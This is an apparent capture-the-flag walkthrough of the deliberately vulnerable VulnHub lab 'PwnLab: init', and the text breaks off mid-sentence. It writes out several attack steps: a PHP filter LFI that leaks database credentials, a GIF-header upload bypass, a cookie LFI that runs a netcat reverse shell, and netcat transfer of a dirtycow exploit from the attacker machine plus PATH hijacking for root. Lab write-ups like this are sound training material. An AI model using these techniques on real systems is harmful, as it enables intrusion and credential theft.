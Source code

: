 #  PwnLab: init

https://www.vulnhub.com/entry/pwnlab-init,158/

I like to do a quick nmap scan and then a full nmap while I am checking out the open ports. `nmap 192.168.1.97` and then:

```
root@kali:~# nmap -p- -T4 -A 192.168.1.97

Starting Nmap 7.60 ( https://nmap.org ) at 2017-10-01 17:27 BST
Nmap scan report for pwnlab.home (192.168.1.97)
Host is up (0.00025s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: PwnLab Intranet Image Hosting
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          32894/tcp  status
|_  100024  1          52796/udp  status
3306/tcp  open  mysql   MySQL 5.5.47-0+deb8u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.47-0+deb8u1
|   Thread ID: 41
|   Capabilities flags: 63487
|   Some Capabilities: Support41Auth, SupportsCompression, DontAllowDatabaseTableColumn, LongColumnFlag, Speaks41ProtocolOld, ODBCClient, InteractiveClient, SupportsLoadDataLocal, FoundRows, IgnoreSigpipes, SupportsTransactions, Speaks41ProtocolNew, ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, LongPassword, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: 0>&C^.jL|MIfFjf>DxRn
|_  Auth Plugin Name: 88
32894/tcp open  status  1 (RPC #100024)
MAC Address: 00:0C:29:E3:2C:F5 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.8
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.25 ms pwnlab.home (192.168.1.97)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1431.30 seconds
```

## PHP Local File Inclusion (LFI)
We used nikto scan to check for vulnerabilities, it seems that config.php is readable. The web application is vulnerable to LFI, but the usual commands such as `192.168.1.97/?page=/etc/passwd` does not work. Using https://diablohorn.com/2010/01/16/interesting-local-file-inclusion-method/, it seems that the we can use PHP filters to read the config.php 

```
http://192.168.1.97/?page=php://filter/convert.base64-encode/resource=config

PD9waHANCiRzZXJ2ZXIJICA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIkg0dSVRSl9IOTkiOw0KJGRhdGFiYXNlID0gIlVzZXJzIjsNCj8

<?php
$server	  = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?
```

Now we can log into mysql with those credentials.

```
root@kali:~# mysql -h 192.168.1.97 -u root -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 88
Server version: 5.5.47-0+deb8u1 (Debian)

Copyright (c) 2000, 2017, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show tables;
ERROR 1046 (3D000): No database selected
MySQL [(none)]> USE Users;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [Users]> show tables;
+-----------------+
| Tables_in_Users |
+-----------------+
| users           |
+-----------------+
1 row in set (0.00 sec)

MySQL [Users]> select * from users;
+------+------------------+
| user | pass             |
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |     <--- JWzXuBJJNy
| mike | U0lmZHNURW42SQ== |     <--- SIfdsTEn6I
| kane | aVN2NVltMkdSbw== |     <--- iSv5Ym2GRo
+------+------------------+
3 rows in set (0.00 sec)
```

We get a kent:JWzXuBJJNy as it is base64. When we try to upload our shell, it gets denied, changing to gif leads to an Error 002. We check the upload.php by doing the same exploit after we've logged in as kent. 

```
<?php
session_start();
if (!isset($_SESSION['user'])) { die('You must be log in.'); }
?>
<html>
	<body>
		<form action='' method='post' enctype='multipart/form-data'>
			<input type='file' name='file' id='file' />
			<input type='submit' name='submit' value='Upload'/>
		</form>
	</body>
</html>
<?php 
if(isset($_POST['submit'])) {
	if ($_FILES['file']['error'] <= 0) {
		$filename  = $_FILES['file']['name'];
		$filetype  = $_FILES['file']['type'];
		$uploaddir = 'upload/';
		$file_ext  = strrchr($filename, '.');
		$imageinfo = getimagesize($_FILES['file']['tmp_name']);
		$whitelist = array(".jpg",".jpeg",".gif",".png"); 

		if (!(in_array($file_ext, $whitelist))) {
			die('Not allowed extension, please upload images only.');
		}

		if(strpos($filetype,'image') === false) {
			die('Error 001');
		}

		if($imageinfo['mime'] != 'image/gif' && $imageinfo['mime'] != 'image/jpeg' && $imageinfo['mime'] != 'image/jpg'&& $imageinfo['mime'] != 'image/png') {
			die('Error 002');
		}

		if(substr_count($filetype, '/')>1){
			die('Error 003');
		}

		$uploadfile = $uploaddir . md5(basename($_FILES['file']['name'])).$file_ext;

		if (move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)) {
			echo "<img src=\"".$uploadfile."\"><br />";
		} else {
			die('Error 4');
		}
	}
}

?>
```

We see that Error 002 is checks the imageinfo, we need to bypass the image info. We can either edit the properties through open source tools or add GIF98 at the start of the php file. Now that we have our shell uploaded, we need to execute it. Visiting the .gif doesnt work. We check the other pages and find that the index page checks if a cookie is set for lang. 

```
<?php
//Multilingual. Not implemented yet.
//setcookie("lang","en.lang.php");
if (isset($_COOKIE['lang']))
{
	include("lang/".$_COOKIE['lang']);
}
// Not implemented yet.
?>
<html>
<head>
<title>PwnLab Intranet Image Hosting</title>
</head>
<body>
<center>
<img src="images/pwnlab.png"><br />
[ <a href="/">Home</a> ] [ <a href="?page=login">Login</a> ] [ <a href="?page=upload">Upload</a> ]
<hr/><br/>
<?php
	if (isset($_GET['page']))
	{
		include($_GET['page'].".php");
	}
	else
	{
		echo "Use this server to upload and share image files inside the intranet";
	}
?>
</center>
</body>
</html>
```

Normally, includes has some sort of LFI. We change the cookie SESSID to lang and check for `../../../../../../../etc/passwd`, it works! Lets try executing our backdoor `../upload/450619c0f9b99fca3f46d28787bc55c5.gif` with `nc -lvp 1234` on Kali Linux attacker vm. We now have a shell! We can get a TTY shell from `python -c 'import pty; pty.spawn("/bin/sh")'`

## Privilege Escalation

From here, you can use the dirtycow exploit and you can move that by on the attacker vm `nc -lvp 1234 < dirtycow.c` and then in the backdoor shell `nc KaliLinuxIP > dirtycow.c`. Alternatively, you can follow the challenge by logging into `su kane:iSv5Ym2GRo`.

``` 
kane@pwnlab:~$ cd ~ 
cd ~
kane@pwnlab:~$ ls
ls
msgmike
kane@pwnlab:~$ ./msgmike
./msgmike
cat: /home/mike/msg.txt: No such file or directory      <------ tries to cat, maybe we can change path to the file or even cat
kane@pwnlab:~$ echo ” /bin/bash” > cat          <----- create a file cat with /bin/bash which we will change path to direct it to this, our fake cat
kane@pwnlab:~$export PATH=. : $PATH
kane@pwnlab:~$./msgmike
kane@pwnlab:~$./msg2root
then run the outpu
